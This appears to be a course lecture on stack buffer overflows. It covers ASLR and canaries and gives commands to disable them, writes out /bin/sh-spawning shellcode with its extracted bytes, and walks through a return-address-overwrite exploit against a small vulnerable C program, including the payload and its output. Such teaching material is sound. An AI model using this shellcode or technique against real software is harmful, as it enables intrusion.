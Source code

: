 # Lecture 2: Stack Overflows

I am assuming you have been through the [Lecture 1
handouts](/Lecture1/README.md). In that handout I have mostly explained about
the concept of memory and stack growth. Before going on with this lecture please
read it fist.  

In this lecture I am planning to cover the following:
* Stack overflow.
* Their protection mechanisms.
    * ASLR.
    * Stack canaries.
* What are shell code.
* Exploiting stack overflows and changing control flow of the program.


Let's begin.  

### Stack overflow.
Programming languages such as C, in which the High level language instructions
maps to typical machine language do not provides any mechanism to identify if
the buffer (char array) declared on to the stack, can take the input more that
was it was supposed to take. The reason for non checking such sort of mechanism
was to achieve speed par to the machine language.  

If you remember the stack diagram from Lecture 1, this is how the stack looks
like during the function call.
```
                       +   Previous function  +
                       |     Stack frame      +
                       |                      |
                       +----------------------+ <--+ previous function stack frame end here
                       |Space for return value|
                       +----------------------+
                       |Arguments for function|
                       +----------------------+
                       |    return address    |
                       +----------------------+
                       |     saved $ebp       |
                       +----------------------+
                       |                      | <--+  padding done by compilers
                       +------------+---------+
                       |         |4 |         |
                       |         |3 |         |
                       |         |2 | ^       |
                       |         |1 | |       |
                       |      ch |0 | |       |
                       +------------+-+-------+                       
                       |                      |
                       |     unused space     |
                       +                      +
```

Observe how the buffer is aligned in the stack. Buffers/char arrays are stored
from lower to higher memory addresses. And also C programs do not checks if size
of the array is less than the input size.  
So we have these things in mind:
* C does not check buffer over flow.
* Buffers are stored in lower to higher memory address.
* Just after the buffer, after overflowing it to certain amount can update saved
* `$ebp` and return address.
* If the return address is changed we can change the control flow. :cool:

### Stack Protection
#### 1. ASLR
> Address space layout randomization (ASLR) is a computer security technique
> involved in preventing exploitation of memory corruption vulnerabilities. In
> order to prevent an attacker from reliably jumping to, for example, a
> particular exploited function in memory, ASLR randomly arranges the address
> space positions of key data areas of a process, including the base of the
> executable and the positions of the stack, heap and libraries. Ref: [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)  

In short ASLR, will keep on changing the starting address of every section will
each run be it either heap or stack. So, ASLR will hinder our exploitation.
What we can do for that? We will disable it. :smile:
We will see about exploiting stack with ASLR enabled systems in future lectures.
For now, you can disable it with this following command:  
`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`

#### 2. Stack Canaries
>Stack canaries, named for their analogy to a canary in a coal mine, are used to
>detect a stack buffer overflow before execution of malicious code can occur.
>This method works by placing a small integer, the value of which is randomly
>chosen at program start, in memory just before the stack return pointer. Ref:(link)[https://en.wikipedia.org/wiki/Stack\_buffer\_overflow#Stack\_canaries]

This means they just protect your buffers. This is technique implemented by the
compiler to incorporate some random data after the end of buffer in the program
that will allow system to identify the buffer overflows.
For now we will disable that option from the compiler using following option.
`gcc -fno-stackprotector <file>.c`

### Shell Codes
Shell is small piece of payload in binary language that is used to inject to
vulnerable binary files. You can craft the payload for anything. They are just
module level binary code.  
Crafting shellcode is in itself a big topic to cover here. I shall take it in
brief. We will create a shellcode that spawns a shell. First create
shellcode.nasm with the following content.
[In detail](http://www.vividmachines.com/shellcode/shellcode.html)

```
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```

Use `nasm` to compile it.  
`nasm -f elf shellcode.asm`

Now you would want to obtain the shell code bytes. What are they? They are
machine code that corresponds to those instructions.
How can we get those? `objdump` will help.
`objdump -d shellcode.o`
You will get something like.
```
shellcode.o:     file format elf32-i386
Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	50                   	push   %eax
  10:	89 e2                	mov    %esp,%edx
  12:	53                   	push   %ebx
  13:	89 e1                	mov    %esp,%ecx
  15:	b0 0b                	mov    $0xb,%al
  17:	cd 80                	int    $0x80
```
You can use the following shell code to get that extracted. :cool:
``for i in `objdump -d shellcode.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done``

Exploiting actual programs:
---

#### 1. Lets consider this code.
```c
#include <stdio.h>

void bar()
{
    printf("How come you entered into bar ?\n");
}

void foo()
{
    char buffer[10];
    scanf("%s", buffer);
    printf("Hello ji %s \n", buffer);
}

int main()
{
    foo();
    return 0;
}
```
The task is to change the control flow so that `bar` function is called.
Lets start doing it. Compilation instruction are there in the file.
Identify the buffer location and how far is $ebp from it.
`objdump -d ./first`
```
0804848b <bar>:
 804848b:	55                   	push   %ebp
 804848c:	89 e5                	mov    %esp,%ebp
 ...

080484a4 <foo>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	83 ec 18             	sub    $0x18,%esp
 80484aa:	83 ec 08             	sub    $0x8,%esp
 80484ad:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484b0:	50                   	push   %eax
 80484b1:	68 a0 85 04 08       	push   $0x80485a0
 80484b6:	e8 b5 fe ff ff       	call   8048370 <__isoc99_scanf@plt>
 80484bb:	83 c4 10             	add    $0x10,%esp
 80484be:	83 ec 08             	sub    $0x8,%esp
 80484c1:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484c4:	50                   	push   %eax
 80484c5:	68 a3 85 04 08       	push   $0x80485a3
 80484ca:	e8 71 fe ff ff       	call   8048340 <printf@plt>
 80484cf:	83 c4 10             	add    $0x10,%esp
 80484d2:	90                   	nop
 80484d3:	c9                   	leave  
 80484d4:	c3                   	ret    

080484d5 <main>:
...
 80484df:	55                   	push   %ebp
 80484e0:	89 e5                	mov    %esp,%ebp
 80484e2:	51                   	push   %ecx
 80484e3:	83 ec 04             	sub    $0x4,%esp
 80484e6:	e8 b9 ff ff ff       	call   80484a4 <foo>
...

```

Notice these instruction in `foo`  
```
 80484ad:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484b0:	50                   	push   %eax
 80484b1:	68 a0 85 04 08       	push   $0x80485a0
 80484b6:	e8 b5 fe ff ff       	call   8048370 <__isoc99_scanf@plt>
```

The value of 0x12 is subtracted from `$ebp` and is then pushed to stack for call to `scanf`.
We know that one of them is nothing but buffer that scanf inputs.
This must be the buffer that need to inject. base16(12) == base10(18). Our buffer is 18 bytes from `$ebp`.  

Finally we are ready to craft the payload.  
``echo -e `python -c 'print "A"*18+<Dummay valur for EBP>+<Return address>'` | ./first ``  
The exact payload looks like:    
``echo -e `python -c 'import struct;print "A"*18+"BBBB"+struct.pack("<I", 0x0804848b )'` | ./first ``

```
Hello ji AAAAAAAAAAAAAAAAAABBBB? 
How come you entered into bar ?
Segmentation fault (core dumped)
```

:smile: we exploited the buffer overflow.  

#### Try to solve exploit_me_2.c :smile:


